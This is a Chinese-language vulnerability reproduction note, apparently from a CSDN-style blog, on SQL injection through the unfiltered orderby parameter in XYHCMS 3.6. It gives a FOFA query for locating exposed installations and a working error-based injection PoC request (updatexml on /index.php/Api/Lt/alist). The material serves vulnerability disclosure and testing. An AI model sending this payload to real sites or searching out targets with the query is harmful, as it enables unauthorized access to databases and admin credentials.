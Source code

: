 
# 行云海 CMS SQL 注入漏洞复现

### 0x01 产品简介

 行云海 cms 是完全开源的一套 CMS[内容管理系统](https://so.csdn.net/so/search?q=%E5%86%85%E5%AE%B9%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020),简洁，易用，安全，稳定，免费。

### 0x02 漏洞概述

 行云海 cms 中 ThinkPHP 在处理 order by 排序时可利用 key 构造[SQL 语句](https://so.csdn.net/so/search?q=SQL%E8%AF%AD%E5%8F%A5&spm=1001.2101.3001.7020)进行注入，LtController.class.php 中发现传入了 orderby 未进行过滤导致 sql 注入。攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 影响范围

 xyhcms 3.6 版本

### 0x04 复现环境

FOFA：app="XYHCMS"

![1f3ae77b60a24fd9926f11210ff9da08.png](assets/1701755900-d7deb418688c5204edbc1e9994cbde2f.png)

### 0x05 漏洞复现

PoC

```cobol
GET /index.php/Api/Lt/alist?orderby[updatexml(1,concat(0x3a,(select%20version()),0x3a),1);]=1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

PS：PoC 中报错[注入](https://so.csdn.net/so/search?q=%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)的结果不会直接回显，但会写到日志里面，访问日志即可查看
